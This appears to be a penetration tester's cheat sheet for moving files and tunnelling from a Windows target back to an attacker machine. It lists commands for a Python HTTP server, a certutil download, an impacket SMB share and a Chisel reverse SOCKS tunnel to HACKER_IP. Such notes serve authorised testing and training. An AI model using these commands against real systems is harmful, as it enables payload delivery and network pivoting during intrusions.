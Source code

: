 ## Python:
```Shell
$ python3 -m http.server PORT
```

## Certutil
Windows
```powershell
PS > certutil -urlcache -f http://IP:PORT/file file_local
```
Could be used with [[Windows Privesc.#RunasCs.exe]] 
## SMB:
Server:
```Shell
sudo impacket-smbserver -smb2support SHARE_NAME RUN_DIR
sudo impacket-smbserver -smb2support share $(pwd)
```
Client:
```powershell
> New-PSDrive -Name "SHARE_NAME" -PsProvider "Filesystem" -Root "\\YOUR_IP\YOUR_SHARE_NAME"
```

## Chisel
Server (Linux):
```shell
$ chisel server --reverse --socks5 -p 8001
```
Client (Windows)
```powershell
> .\chisel.exe client HACKER_IP:PORT R:socks
```

Can be used with `curl`:
```shell
curl -x socks5://127.0.0.1:LPORT https://127.0.0.1:RPORT
```

## LDAP
Server:
```Shell
java -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
```